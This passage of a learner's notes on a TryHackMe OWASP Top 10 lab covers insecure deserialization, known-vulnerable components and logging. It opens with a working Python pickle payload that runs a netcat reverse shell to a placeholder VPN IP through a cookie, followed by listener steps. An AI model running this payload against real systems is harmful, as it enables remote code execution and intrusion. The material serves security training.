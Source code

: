 
command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```
- run nc -lvnp 4444
- replace cookie encodedpayload
- get reverse shell and navigate to home directory to get flag
![ca70aa61b1de7c4b20572f1304dba769.png](../../../_resources/5ff37da3eda04b15bb1c79d295a74120.png)


# Task 27 [Severity 9] Components With Known Vulnerabilities - Intro
- use exploit-db to search for an exploit that has already been made
- rated 3 on the prevalence scale -easy to miss an update on application



# Task 28  [Severity 9] Components With Known Vulnerabilities - Exploit

- some more details about using exploits
- they could have bugs

# Task 29  [Severity 9] Components With Known Vulnerabilities - Lab
- website is CSE Bookstore
![5425bbbf7eb3e87b43593f75e3b414a6.png](../../../_resources/4740086e0ab5429fb286b765f4f61bc8.png)
- keyword 'book' platform 'php verified
![190a093bc56ed21b18892c7dc2a9b28d.png](../../../_resources/f6787f54cee24c43b04ebf452698338c.png)
- we use first script 

## Tasks
46. How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)

- we run the script and payload is generated
through a link which will launch a shell
![a6f6b35a1de93b5425e56b96468619e1.png](../../../_resources/f4832c430c814df0a85463200432ed68.png)


# Task 30  [Severity 10] Insufficient Logging and Monitoring

- logging is important because it can trace an attacker's actions, determine the risk and impact.
	- impact:
		- regulatory damage: leaked pii, get penalized by law/regulations
		- risk of future attacks
- **logging should include:**
	- **http status codes**
	- **time stamps**
	- **usernames**
	- **api endpoints/page locations**
	- **ip addresses**
- store logs securely and have backups
- have monitoring in place to detect suspicious activity
- suspicious activity:
	- multiple unauthorized attempts for a part
	- icular action
	- requests from anomalous IP adddreses (can be false positive)
	- use of automated tools: detected through user-agent headers and speed of requests
	- common payloads:
		- detecting xss
- activity must be RATED
```